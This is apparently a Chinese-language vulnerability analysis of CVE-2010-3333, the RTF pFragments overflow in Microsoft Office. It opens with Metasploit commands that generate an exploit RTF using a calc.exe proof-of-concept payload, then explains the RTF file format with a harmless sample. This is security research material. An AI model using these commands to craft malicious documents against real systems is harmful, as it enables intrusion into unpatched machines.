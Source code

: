 ```shell
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set payload windows/exec 
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set CMD calc.exe
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit
```

![image-20220718172627548](cve-2010-3333.assets/image-20220718172627548.png)

## 漏洞分析

### RTF文件格式

RTF(Rich Text Format)是Microsoft公司为进行文本和图像信息格式的交换而指定的一种文件格式，它适用与不同的设备、操作环境和操作系统。大多数文字处理软件都可以读写某些版本的RTF。RTF是Rich TextFormat的缩写，意即多文本格式。这是一种类似DOC格式（Word文档）的文件，有很好的兼容性，使用Windows“附件”中的“写字板”就能打开并进行编辑。

标准RTF文件只能包含7位ASCII字符，但可以通过转义序列对超出ASCII范围的字符进行编码。由控制字(Control Word)、控制符(Control Symbol)和群组(Group)组成。由于RTF由7位ASCII字符组成，所以可以在大多数基于PC的操作系统之间轻松传输。与大多数明文文件不同，RTF文件不必包含任何回车/换行符(CRLFs)，RTF解析软件应忽略CRLF,除非他们可以用作控制字分隔符。当CRLF出现在主要组边界时，RTF文件更具可读性。

也可以理解为RTF(Rich Text Format)文件中的内容可以分为**内容单元**和**控制单元**两个部分，软件读取RTF文件的时候，根据控制单元的内容设置对应内容单元的格式与位置，显示在文档中。

```
{\rtf\ansi\deff0{\fonttbl{\f0\froman Tms Rmn;}{\f1\fdecor Symbol;}{\f2\fswiss Helv;}}
{\colortbl;\red0\green0\blue0;\red0\green0\blue255;\red0\green255\blue255;\red0\green255\blue0;\red255\green0\blue255;\red255\green0\blue0;\red255\green255\blue0;\red255\green255\blue255;}
{\stylesheet{\fs20 \snext0Normal;}}
{\info{\author John Doe}{\creatim\yr1990\mo7\dy30\hr10\min48}{\version1}{\edmins0}{\nofpages1}{\nofwords0}{\nofchars0}{\vern8351}}
\widoctrl\ftnbj \sectd\linex0\endnhere \pard\plain \fs20 This is plain text.\par}
```
